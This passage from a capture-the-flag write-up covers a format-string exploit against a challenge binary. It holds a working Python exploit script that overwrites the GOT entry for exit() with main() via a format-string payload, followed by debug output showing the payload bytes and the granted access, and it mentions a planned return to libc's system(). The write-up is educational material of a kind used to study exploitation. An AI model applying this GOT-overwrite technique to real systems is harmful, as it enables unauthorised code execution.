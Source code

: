 ```c
}
```
Since the GOT table is still writable, I made a basic payload to overwrite `exit()` with `main()`, forming a loop:
```python
from pwnscripts import *
context.binary = 'secret'
context.binary.symbols['main'] = 0x401176
context.log_level = 'debug'

def printf(s):
    r = remote('challs.xmas.htsp.ro', 14712)
    r.sendline('GumaTurbo123!')
    r.sendafter('14712\n', s)
    return r.recvall()
offset = fsb.find_offset.buffer(printf,50)

r = remote('challs.xmas.htsp.ro', 14712)
def cycle(s, until=None):
    r.sendline('GumaTurbo123!')
    r.sendlineafter('14712\n', s)
    if until is None: return None
    return r.recvuntil(until)
cycle(fmtstr_payload(offset, {context.binary.got['exit']: context.binary.symbols['main']}),b'a')
r.interactive()
```
This clearly works on testing:
```python
[DEBUG] Received 0x16 bytes:
    b'\n'
    b'Check out port 14712\n'
[DEBUG] Sent 0x41 bytes:
    00000000  25 31 31 38  63 25 31 31  24 6c 6c 6e  25 31 35 35  │%118│c%11│$lln│%155│
    00000010  63 25 31 32  24 68 68 6e  25 34 37 63  25 31 33 24  │c%12│$hhn│%47c│%13$│
    00000020  68 68 6e 61  61 61 61 62  40 40 40 00  00 00 00 00  │hhna│aaab│@@@·│····│
    00000030  41 40 40 00  00 00 00 00  42 40 40 00  00 00 00 00  │A@@·│····│B@@·│····│
    00000040  0a                                                  │·│
    00000041
[DEBUG] Received 0x148 bytes:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000070  20 20 20 20  20 10 20 20  20 20 20 20  20 20 20 20  │    │ ·  │    │    │
    00000080  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000110  d0 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │·   │    │    │    │
    00000120  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    00000130  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 51  │    │    │    │   Q│
    00000140  61 61 61 61  62 40 40 40                            │aaaa│b@@@│
    00000148
[*] Switching to interactive mode
aaab@@@$ GumaTurbo123!
[DEBUG] Sent 0xe bytes:
    b'GumaTurbo123!\n'
[DEBUG] Received 0x21 bytes:
    b'Access granted! Filters disabled!'
```
With infinite `printf()` abuse available, all we really need to do is to return to libc's `system()` for the flag.
